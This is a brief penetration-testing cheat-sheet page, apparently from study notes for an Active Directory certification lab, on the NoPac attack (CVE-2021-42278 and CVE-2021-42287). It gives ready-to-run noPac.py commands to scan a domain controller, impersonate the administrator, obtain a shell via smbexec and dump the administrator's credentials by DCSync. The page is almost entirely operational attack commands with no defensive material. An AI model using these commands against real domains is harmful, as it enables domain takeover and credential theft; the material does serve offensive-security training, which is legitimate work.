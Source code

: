 ```yaml
---
layout: app
title: "Active Directory No PAC"
tags: ["NoPac","DCSync"]
section: "Active Directory"
---
```


# NoPac

## CVE's

* CVE-2021-42278: Bypass vulnerability with the Security Account Manager (SAM).
* CVE-2021-42287: Vulnerability within the Kerberos Privilege Attribute Certificate (PAC) in ADDS.

[noPac Tool](https://github.com/Ridter/noPac)


### scan
```bash
python scanner.py crtp.local/username:password -dc-ip 192.168.85.100 -use-ldap
```

### Exploit

```bash
sudo python3 noPac.py crtp.LOCAL/username:password -dc-ip [address]  -dc-host DC01 --impersonate administrator -use-ldap -dump -just-dc-user crtp/administrator
```

> We will notice that a semi-interactive shell session is established with the target using smbexec.py. Keep in mind with smbexec shells we will need to use exact paths instead of navigating the directory structure using cd.

It is important to note that NoPac.py does save the TGT in the directory on the attack host where the exploit was run. We can use ls to confirm

### Using noPac to DCSync the Built-in Administrator Account

```bash
sudo python3 noPac.py crtp.LOCAL/username:password -dc-ip IPAddress  -dc-host HOST-NAME --impersonate administrator -use-ldap -dump -just-dc-user crtp/administrator
```
